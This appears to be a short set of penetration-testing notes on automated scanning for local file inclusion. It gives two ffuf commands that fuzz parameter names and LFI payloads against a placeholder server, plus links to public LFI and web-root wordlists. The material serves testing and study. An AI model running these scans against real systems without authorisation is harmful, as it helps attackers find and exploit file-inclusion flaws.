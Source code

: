 ## Automated Scanning

- Fuzzing Parameters
- LFI wordlists

````
$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
````
````
$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
````

- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt
- https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
- https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
- https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

